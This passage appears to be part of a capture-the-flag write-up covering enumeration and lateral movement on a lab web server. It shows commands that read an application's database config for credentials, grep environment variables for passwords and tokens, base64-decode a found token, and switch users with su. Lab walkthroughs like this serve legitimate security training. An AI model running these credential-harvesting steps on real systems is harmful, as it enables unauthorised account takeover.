 ## 🔍 System Enumeration

### 👤 Initial Access
**🎯 User Context:** `www-data`

### 📁 Configuration File Discovery
```bash
# Navigate to application config directory
cd /var/www/html/appcastle/application/config

# Examine database configuration
cat database.php
```

**🎯 Credentials Found:** Database credentials for user `toad`

## 🔄 Lateral Movement

### 👥 User Escalation - Toad
```bash
# Switch to toad user
su toad
# Enter discovered password
```

### 🔍 Environment Variable Enumeration
```bash
# Check environment variables
env | grep -i pass
printenv | grep -i token
```

**🎯 Key Discovery:** `pwd_token` environment variable
```bash
pwd_token=aWthVGV0VEFOdEVTCg==
```

### 🔓 Token Decoding
```bash
# Decode base64 token
echo "aWthVGV0VEFOdEVTCg==" | base64 -d
```

**✅ Result:** Mario's password revealed

### 👑 User Escalation - Mario
```bash
# Switch to mario user
su mario
# Enter decoded password
```
